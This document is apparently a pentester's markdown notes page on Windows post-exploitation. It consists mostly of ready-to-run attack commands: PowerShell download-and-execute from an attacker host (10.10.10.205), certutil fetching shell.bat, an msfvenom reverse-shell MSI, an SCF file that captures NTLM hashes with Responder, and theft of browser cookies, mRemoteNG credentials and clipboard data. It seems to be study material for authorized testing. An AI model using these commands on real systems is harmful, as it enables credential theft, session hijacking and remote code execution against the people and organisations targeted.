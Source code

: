 ### Interacting with users:
Wire shark installed?
	Capture credentials
	[net-creds](https://github.com/DanMcInerney/net-creds) to sniff passwords and hashes from a pcap
	
#### Monitoring for Process command lines
Create a powershell script:
```powershell
While($true){			
$process = Get-WmiObject Win32_Process | Select-Object CommandLine
Start-Sleep 1
$process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
Compare-Object -ReferenceObject $process -DifferenceObject $process2
}
```

Host the script on the attacking machine and execute on target machine:
```powershell
IEX (iwr 'http://10.10.10.205/procmon.ps1')
```

### Shell Command File (SCF)
Used by windows explorer to move up and down directories
Can be manipulated to have the icon file location point to a specific UNC path. 
#### Exploit
Change the Icon file to an SMB session and run [Responder](https://github.com/lgandx/Responder), may be able to captire NTLM hashes.   
##### Example:
Make a file with '@' at the start and extension `.scf`, the @ makes sure windows see its straight away i.e `@test.scf`
``` notepad
[Shell]
Command=2
IconFile=\\<listener ip>\share\legit.ico
[Taskbar]
Command=ToggleDesktop 
```
Start Responder 
```bash
sudo responder -wrf -v -I <tun0>
```

Crack the passwords
Malicous .ink File
Doesn't work on Server 2019 hosts.
[Lnkbomb](https://github.com/dievus/lnkbomb) to create a .ink file

## Pillaging 
Obtaining information from a compromised system
Identify Common Applications
Program Files + (x86)
List Installed Programs
```powershell
$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* 

$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation

$INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize
```
### mRemoteNG
Used to connect systems using RDP, VNC, SSH
Connection info and credentials saved to confCons.xml.
password is mR3m
```powershell
ls C:\Users\julio\AppData\Roaming\mRemoteNG
```
Decrypt password using [mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt)
```python 
python 3 mremoteg_decrypt.py -s <password> -p <custom password>
```
Run a for loop with a word list on it.
Cookie Abuse to get access to Instant messengers.
[Slack Abuse](https://posts.specterops.io/abusing-slack-for-offensive-operations-2343237b9282)

### Firefox
Copy Firefox cookies
```powershell
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

#### [Cookie Extractor](https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py)
```python 
python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d 
```
Use a [cookie editor extension](https://cookie-editor.cgagnier.ca/)

### Chromium 
[Invoke-SharpChromium](https://github.com/djhohnstein/SharpChromium)
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')

Invoke-SharpChromium -Command "cookies slack.com" 
```
### Monitor Clipboard 

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')

Invoke-ClipboardLogger
```

## Living of the Land of Binaries and Scripts ([LOLBAS](https://lolbas-project.github.io/#))
Documents binaries, scripts and libraries that can be used on windows Systems.

Transferring files with [Cerutil](https://lolbas-project.github.io/lolbas/Binaries/Certutil/)
```shell-session
certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```
Encoding files
```shell-session
certutil -encode file1 encodedfile
```
Decoding files
```shell-session
certutil -decode encodedfile file2
```
Execute DLL with [rundll32.exe](https://lolbas-project.github.io/lolbas/Binaries/Rundll32/)
Always Install Elevated
Local group policy
```shell-session 
Computer Configuration\Administrative Templates\Windows Components\Windows Installer
```
```shell-session
User Configuration\Administrative Templates\Windows Components\Windows Installer
```
Enumerate always install elevated settings.
```shell-session
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
Generate malicious MSI package and execute to get a reverse shell.
```bash
msfvenom -p windows/shell_reverse_tcp lhost=<ip> lport=<port> -f msi > aie.msi
```
Execute MSI package
```powershell
msiexec /i  <path to file> /quiet /qn /norestart
```

### Scheduled tasks
[schtasks](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks) command 
```powershell
schtasks /query /fo LIST /v

Get-ScheduledTask | select TaskName,State
```
Can only see tasks created by current user.
C:\Scripts Permissions
```shell-session 
.\accesschk64.exe /accepteula -s -d C:\Scripts\
```
User/Computer Description Field
[Get-LocalUser](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.localaccounts/get-localuser?view=powershell-5.1)
Clear text passwords?
### [Get-WmiObject](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-wmiobject?view=powershell-5.1)
```shell-session
Get-WmiObject -Class Win32_OperatingSystem | select Description
```
### Virtual hard disk drives:
.vhd .vhdx .vmdk 
### Use the tool [snaffler](https://github.com/SnaffCon/Snaffler)
Mount the files on linux:
### VMDK
```shell-session
guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk
```
VHD/VHDX
```shell-session
guestmount --add WEBSRV10.vhdx  --ro /mnt/vhdx/ -m /dev/sda1
```
Mount in windows:
DiskManagement
Actions - Attach VHD
[Mount-VHD](https://learn.microsoft.com/en-us/powershell/module/hyper-v/mount-vhd?view=windowsserver2019-ps)

